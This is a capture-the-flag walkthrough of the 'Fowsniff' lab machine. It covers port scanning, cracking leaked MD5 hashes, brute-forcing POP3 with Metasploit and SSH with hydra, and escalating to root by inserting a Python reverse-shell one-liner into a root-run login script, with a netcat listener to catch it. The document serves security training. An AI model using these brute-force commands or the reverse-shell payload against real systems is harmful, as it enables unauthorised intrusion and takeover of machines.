 # Fowsniff-Capture The Flag 🔱

Welcome to the world of ethical hacking, where curiosity meets challenge and every keystroke brings you closer to uncovering hidden vulnerabilities. In this Capture the Flag (CTF) adventure, nicknamed **"Fowsniff"**, I'll be stepping into the shoes of a cyber sleuth, navigating through layers of digital defenses to expose the secrets of a vulnerable machine. From port scanning and online sleuthing to cracking hashes and brute-forcing logins, this project is more than just a test of technical skills—it's a journey into the heart of cybersecurity. Join me as I unravel the complexities of **Fowsniff**, one flag at a time. 😁

## Information Gathering 🤓 ## 
The target IP address is provided when the machine is deployed. For this walkthrough, the target IP address is 10.10.110.111.

## Scanning 🩻 ##
**Results**:
- **Port 22/tcp** - SSH - (OpenSSH 7.2p2)
- **Port 80/tcp** - HTTP - (Apache httpd 2.4.18)
- **Port 110/tcp)** - POP3 - (Dovecot pop3d)
- **Port 143/tcp)** - IMAP - (Dovecot imapd)

  ![initial nmap scan](https://github.com/user-attachments/assets/14302e40-3f1e-4e4f-aa0a-88422f970a5b)

## Enumeration 🔬 ##
Access the web server running on port 80 by visiting **htpp://<target_IP>** in the browser. The website reveals that attackers have dumped employee usernames and hashed passwords on Pastebin.

![enum website ](https://github.com/user-attachments/assets/a5865fcc-4eea-41b2-9c8e-bc2e076cf74d)

- We then retrieve the list of usernames and hashed passwords and save the data to files on the local machine.

![Password Hashes](https://github.com/user-attachments/assets/146aeb2c-2134-4165-96c4-c5a7c91de601)

- Crack the MD5 hashes using hashes.com and save the results to hashcracked.txt.

![Hashes decrypted](https://github.com/user-attachments/assets/830dbd85-d7d7-4346-bac7-55c56c816d82)

- Create files for both **usernames** (username.txt) and the newly cracked **passwords** (password.txt.

## Gaining Access 🕸️ ##

- Use Metasploit module for brute forcing the POP3 service: 

  - msfconsole
  - use auxiliary/scanner/pop3/pop3_login
  - set RHOSTS 10.10.110.111
  - set USER_FILE username.txt
  - set PASS_FILE password.txt
  - exploit

![set options in metasploit](https://github.com/user-attachments/assets/ecf9f1c0-aacf-4024-a540-1dfd6e234e04)

- Running the Metasploit module, we find a matching username and password.  We are now able to connect to the POP3 mail server 📨 !!!

![used hydra to dictionary attack](https://github.com/user-attachments/assets/8fb317ff-0597-4a30-9291-617e8a9fd51b)

- Connect to the POP3 service using the newly found credentials:
  - nc <target_IP>
    - *user* <username>
    *password* <password>

- We come across two emails we can view:

![list messages](https://github.com/user-attachments/assets/2dba789f-f52c-4b97-9a35-3b9c7c2544dc)

- Retrieve the emails:
  LIST; RETR 1; RETR 2

![SSH password email sent](https://github.com/user-attachments/assets/41885922-031d-4581-bbf6-84548941d8b4)

- In the second email we accessed, we can view a temp password for SSH and a possible username.
- Next, use hydra to brute force the SSH login:
  - hydra -L users.txt -p "<password>" ssh://<target_IP>
  - or, the first email can shed light on the username.
- Next, we attempt to connect via SSH

![SSH connection](https://github.com/user-attachments/assets/3d6c8518-a748-4351-a11d-fab27a726038)


## Privilege Escalation 🪃

- Once logged in, enumerate the system:
  - Once the SSH connection is established, we must discover what group(s) the user "baksteen" belongs
  - The user belongs to a group called "users" with permission to run '**/opt/cube/cube/sh**'
    - Running this script looks exactly like the banner displayed when logging in via SSH
   
![Screenshot 2024-09-01 at 6 47 56 PM](https://github.com/user-attachments/assets/2661a901-2a0f-4dc7-9d5f-45657e7f54b0)

- Look in the '**/etc/update-motd.d/00-header**' folder and the '**00-header**' file shows that the '**/opt/cube/cube.sh**' file is run when a user connects to the 
  machine using SSH (and will run as root user).
  - Edit **cube.sh** by inserting a Python reverse shell:
    - '''**python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<local-IP>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'** '''
  - Set up a Netcat listener on local machine: **nc -nlvp 1234**
  - In a seperate terminal, SSH back into the machine: **ssh <username>@<target_IP>**
  - The reverse shell should connect to your listener.  Access the root directory and read the flag:
    - cd /root

    - cat flag.txt
   
![flag captured](https://github.com/user-attachments/assets/3ccb6ba7-0d07-4856-95c2-c0247692e722)









